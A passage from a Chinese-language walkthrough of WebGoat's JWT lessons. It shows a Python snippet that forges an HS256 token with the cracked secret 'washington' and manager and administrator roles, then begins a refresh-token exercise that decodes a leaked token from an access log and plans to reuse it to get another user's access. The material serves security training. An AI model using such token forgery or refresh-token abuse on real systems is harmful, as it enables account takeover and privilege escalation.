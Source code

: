 ```python
    encoded_signature = base64url_encode(signature)  
    token = f"{encoded_header}.{encoded_payload}.{encoded_signature}"  
    return token

payload = {"iss":"WebGoat Token Builder","aud":"webgoat.org","iat":int(datetime.datetime.now(datetime.timezone.utc).timestamp()) + 824770,"exp":int(datetime.datetime.now(datetime.timezone.utc).timestamp()) + 825770,"sub":"tom@webgoat.org","username":"WebGoat","Email":"tom@webgoat.org","Role":["Manager","Project Administrator"]}
secret_key = "washington"
head256 = {"alg": "HS256"}

token = generate_token(secret_key, head256, payload)  
print(token)
```

### 2.6 刷新令牌

#### 2.6.1 基本信息

![](../../images/Pasted%20image%2020241205103250.png)

漏洞的介绍大概是，访问令牌过期用刷新令牌刷新，但是刷新时没有校验这两个令牌是否属于同一个人
于是出现了用测试刷新令牌刷新实际用户的过期访问令牌，拿到了实际用户最新的访问令牌

日志文件
```log
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "GET /JWT/refresh/checkout?token=eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q HTTP/1.1" 401 242 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/moveToCheckout HTTP/1.1" 200 12783 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/login HTTP/1.1" 200 212 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "GET /JWT/refresh/addItems HTTP/1.1" 404 249 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
195.206.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/moveToCheckout HTTP/1.1" 404 215 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36" "-"
```

看起来有一个token
```
eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q
```

算法是HS512，信息是
```
{"iat":1526131411,"exp":1526217811,"admin":"false","user":"Tom"}
```

也许我可以拿我的刷新令牌，刷新这个Tom的令牌，然后用Tom的新令牌干事情
